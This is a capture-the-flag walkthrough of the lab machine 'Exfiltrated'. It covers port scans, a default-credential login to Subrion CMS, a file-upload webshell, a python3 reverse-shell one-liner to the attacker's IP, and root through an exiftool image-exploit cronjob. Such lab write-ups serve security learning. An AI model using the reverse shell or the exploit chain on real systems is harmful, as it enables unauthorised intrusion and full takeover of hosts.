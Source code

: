 # Exfiltrated

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.175.163
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 18:24 +08
Nmap scan report for 192.168.175.163
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed `nmap` scan to enumerate for me as well:

```
$ sudo nmap -p 22,80 -sC -sV -O -T4 192.168.175.163                         
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 18:27 +08
Nmap scan report for 192.168.175.163
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
```

So there's a `/panel` directory present, and we can enumerate that first:

### Default Creds --> Subrion RCE

The `/panel` directory shows us a basic login page:

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:admin`. This software was Subrion CMS v4.2.1, which had a few public exploits:

```
$ searchsploit subrion 4.2.1
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Subrion 4.2.1 - 'Email' Persistant Cross-Site Scripting    | php/webapps/47469.txt
Subrion CMS 4.2.1 - 'avatar[path]' XSS                     | php/webapps/49346.txt
Subrion CMS 4.2.1 - Arbitrary File Upload                  | php/webapps/49876.py
Subrion CMS 4.2.1 - Cross Site Request Forgery (CSRF) (Add | php/webapps/50737.txt
Subrion CMS 4.2.1 - Cross-Site Scripting                   | php/webapps/45150.txt
----------------------------------------------------------- ---------------------------------
```

We can use the Arbitrary File Upload to get a webshell on the machine:

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

From here, we can easily convert this to a reverse shell on our machine using a `python3` reverse shell.&#x20;

{% code overflow="wrap" %}
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.164",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> Exiftool RCE

I ran `linpeas.sh` on the machine to enumerate for me, and it picked up on cronjobs running as the `root` user:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Here's the content of the file:

```bash
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

This program uses `exiftool` to get the metadata of the image and redirects it to a file. We can find the version of `exiftool` being used here by using it on any file:

```
www-data@exfiltrated:/opt$ exiftool image-exif.sh 
ExifTool Version Number         : 11.88
File Name                       : image-exif.sh
Directory                       : .
File Size                       : 437 bytes
File Modification Date/Time     : 2021:06:10 12:06:15+00:00
File Access Date/Time           : 2023:07:01 10:24:06+00:00
File Inode Change Date/Time     : 2021:08:27 12:33:35+00:00
File Permissions                : rwxr-xr-x
File Type                       : bash script
File Type Extension             : sh
MIME Type                       : text/x-bash
```

This version is vulnerable to an RCE exploit by injecting code within the image. When `exiftool` is run on the malicious image, code would be executed as well. Since we can write to the `/var/www/html/subrion/uploads` directory, this means that we just need to create and put a malicious `.jpg` file there.

Here's a repository that can be used:

{% embed url="https://github.com/convisolabs/CVE-2021-22204-exiftool" %}

We just need to edit `exploit.py` to have the relevant IP address and port. Afterwards, we can grab any sample image and run the exploit to update it with the payload:

```
$ python3 exploit.py
    1 image files updated
```

Afterwards, transfer it to the `/var/www/html/subrion/uploads` directory and wait for a bit. Once the cronjob runs, we will get a reverse shell as `root`:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Rooted!
